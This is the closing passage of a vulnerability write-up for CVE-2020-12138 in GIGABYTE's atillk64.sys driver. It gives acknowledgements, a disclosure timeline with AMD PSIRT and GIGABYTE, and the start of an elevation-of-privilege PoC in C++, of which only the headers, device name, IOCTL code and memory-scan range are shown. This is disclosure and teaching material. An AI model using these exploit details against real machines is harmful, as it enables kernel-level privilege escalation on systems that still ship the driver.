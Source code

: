 ## Huge Thanks

Huge thanks to @FuzzySecurity for all of the tutorials, I've recently also finished up his HEVD exploit tutorials and have learned a ton from his blog. Just an awesome resource.

Thanks to @HackSysTeam for the HackSysExtremeVulnerable driver, it has been such a great learning resource and got me started down this path. 

Thanks to both @ihack4falafel and [@ilove2pwn_](https://twitter.com/ilove2pwn_) for answering all of my questions along the way or helping me find the answers myself. Very grateful.

Thanks to [@TheColonial](https://twitter.com/TheColonial) for his advice about disclosure and his awesome [CAPCOM.SYS](https://www.youtube.com/watch?v=pJZjWXxUEl4) YouTube video series. I learned a lot of nice WinDBG tricks from this. 

Thanks again to @jessemichael for being so helpful and charitable. 

Thanks to [Jackson T.](https://twitter.com/Jackson_T) for not only his blog post but for answering all my questions and being extremely helpful, really appreciate it. 

And finally thanks to all those cited blog authors [@rwfpl](https://twitter.com/rwfpl) and [@hatRiot](http://hatriot.github.io/blog/2018/05/17/dell-supportassist-local-privilege-escalation/). 

All testing performed on `Build 18362.19h1_release.190318-1202.`

**Please, let me know if you find any errors.**

## Disclosure Timeline

+ February 25th 2020 -- Email, Customer Service Ticket, and Twitter DM sent to GIGABYTE USA
+ February 26th 2020 -- Email to AMD psirt@amd.com notification of vulnerability found and PoC created
+ February 26th 2020 -- Response from psirt to send PoC
+ February 26th 2020 -- PoC sent to psirt
+ March 7th 2020 -- Ask for update from psirt, no update given
+ March 16th 2020 -- Ask for update from psirt
+ March 16th 2020 -- psirt responds that the issue has been previously reported and that they don't support the product as a result
+ March 16th 2020 -- I inform psirt that other parties are still packaging and installing the driver and there is no advisory for the driver
+ March 24th 2020 -- psirt states that support for the driver ended in late 2019 and to contact GIGABYTE directly
+ April 14th 2020 -- No response from GIGABYTE USA, request CVE
+ April 24th 2020 -- Assigned CVE-2020-12138, blog posted

## Exploit Code
```cpp
// CVE-2020-12138
// EOP Exploit POC for atillk64.sys by @h0mbre_
// C:\Program Files (x86)\GIGABYTE\RGBFusion\AtiTool\atillk64.sys
// Driver vulnerability referenced in: 
// https://github.com/eclypsium/Screwed-Drivers
// https://eclypsium.com/2019/08/10/screwed-drivers-signed-sealed-delivered/

#include <iostream>
#include <vector>
#include <algorithm>
#include <Windows.h>
#include "h0mbre.h"
using namespace std;

#define DEVICE_NAME         "\\\\.\\atillk64"
#define IOCTL               0x9C402564
#define START_ADDRESS       (INT64)0x200000000   // based off testing my VM
#define MAX_ADDRESS         (INT64)0x240000000   // based off testing my VM

```